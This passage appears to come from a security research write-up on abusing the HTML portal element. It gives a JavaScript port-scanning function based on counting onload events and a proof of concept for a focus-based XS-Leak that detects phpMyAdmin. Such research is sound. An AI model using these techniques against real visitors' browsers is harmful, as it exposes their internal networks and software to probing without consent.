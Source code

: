 ```jsx
async function scanPort(host, port) {
  const portal = document.createElement("portal");
  document.body.appendChild(portal);
  let onloadCounter = 0;
  portal.onload = () => {
    onloadCounter++;
  };

  portal.src = `http://${host}:${port}?${Math.random()}`;

  await sleep(1000);

  portal.remove();

  if (onloadCounter === 0) {
    return `onload didn't fire in 1s --> port ${port} is probably FILTERED`;
  } else if (onloadCounter === 1) {
    return `onload fired once --> port ${port} is probably HTTP and is OPEN`;
  } else if (onloadCounter % 2 === 0) {
    return `onload fired ${onloadCounter} times --> port ${port} is OPEN`;
  } else {
    return `onload fired ${onloadCounter} times --> port ${port} is CLOSED`;
  }
}

function sleep(ms) {
  return new Promise((r) => setTimeout(r, ms));
}
```

Port scanning can be conducted like this using how many times `onload` events were emitted when rendering pages using portal based on host and port. In this process, if `onload` events are emitted even numbers of times, you can confirm the page is open, and if emitted odd numbers of times, you can know the page is closed.

Port scanning is quite commonly conducted using automated tools like `nmap`, but it shows that meaningful information leakage is possible using portal and its functional characteristics.

As mentioned above, portal doesn't allow interaction from parent frames to child frames. However, exceptionally, `focus` events are allowed. Attackers can use this characteristic to manifest peculiar XSLeak vulnerabilities.

The core of this attack is exploiting HTML's `fragment identifier` processing mechanism. When specifying element `id` to move to in URL `fragment`, pages try to move to specific elements and `focus`.

If values specified in `fragment` match specific element `id` on pages, pages try to move directly to those element positions and automatically generate `focus` events in this process. This is behavior defined in HTML5 spec's `fragment identifier` processing algorithm.

```jsx
<body onblur="alert('phpMyAdmin detected!')">
  <portal src="https://demo.phpmyadmin.net/master-config/index.php?route=/server/databases#text_create_db"></portal>
</body>
```
